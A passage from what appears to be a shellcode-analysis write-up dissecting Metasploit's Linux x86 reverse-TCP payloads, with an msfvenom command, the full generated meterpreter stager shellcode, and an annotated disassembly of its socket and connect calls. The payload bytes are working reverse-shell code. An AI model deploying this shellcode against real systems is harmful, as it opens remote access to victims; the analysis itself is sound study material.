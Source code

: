 * int socket(int protocolFamily, int type, int protocol);
* int connect(int socket, struct sockaddr \*foreignAddress, unsigned int addressLength);
* int dup2(int oldfd, int newfd);
* int execve(const char \*filename, char \*const argv[],char \*const envp[]); 

They are all there. There are some differences between our simple shellcode and this elegant one. First, there are several optimizations, for example:

* Usage of `mul` instruction to clear registers
* Usage of `xchg` instruction to move the content of one register to another
* Usage of a loop structure for redirecting INPUT, OUTPUT and ERROR

Improvements apart, the essence of this shellcode is pretty much the same as ours.

### linux/x86/meterpreter/reverse_tcp
Now that we know what `linux/x86/shell_reverse_tcp`, why not looking at Meterpreter? Metasploit splits some of it payloads in Stageless and Staged categories. The first one corresponds to payloads that are delivered as a single chunk and you can identify them as `meterpreter_`. On the other hand, Staged payloads are delivered in parts. Initially the victim receives a small stage which then loads the following stages.

Since the stageless payload is humongous, I will analyse only the stalegess version.

```
msfvenom -a x86 --platform linux -p linux/x86/meterpreter/reverse_tcp -f c
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of c file: 543 bytes
unsigned char buf[] = 
"\x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89"
"\xe1\xcd\x80\x97\x5b\x68\x7f\x00\x00\x01\x68\x02\x00\x11\x5c"
"\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0"
"\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05"
"\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9"
"\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd"
"\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80"
"\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00"
"\x00\xcd\x80";
```

Code analysis (highlights):

```
0:  6a 0a                   push   0xa
2:  5e                      pop    esi	;esi=0xa (PUSH-POP technique)
3:  31 db                   xor    ebx,ebx	;clear out ebx
5:  f7 e3                   mul    ebx	;clear eax
7:  53                      push   ebx	;store 0 on the stack
8:  43                      inc    ebx	;ebx=1
9:  53                      push   ebx	;store 1 on the stack
a:  6a 02                   push   0x2	;store 2 on the stack
c:  b0 66                   mov    al,0x66	;socketcall syscall number 0x66 in eax
e:  89 e1                   mov    ecx,esp	;point ecx to the parameters on the stack
;EAX=0x66 (socketcall)
;EBX=1 (socket)
;ECX -> 2/1/0 (parameters)

10: cd 80                   int    0x80		;call syscall (socket)
12: 97                      xchg   edi,eax  ;save the result of the syscall (file descriptor) in edi
13: 5b                      pop    ebx      ;ebx=2
14: 68 7f 00 00 01          push   0x100007f    ;IP
19: 68 02 00 11 5c          push   0x5c110002   ;PORT
1e: 89 e1                   mov    ecx,esp  ;ecx points to the parameters on the stack
20: 6a 66                   push   0x66
22: 58                      pop    eax      ;eax=0x66, 'connect' syscall number
23: 50                      push   eax      ;push 0x66 on the stack (socketcall)
```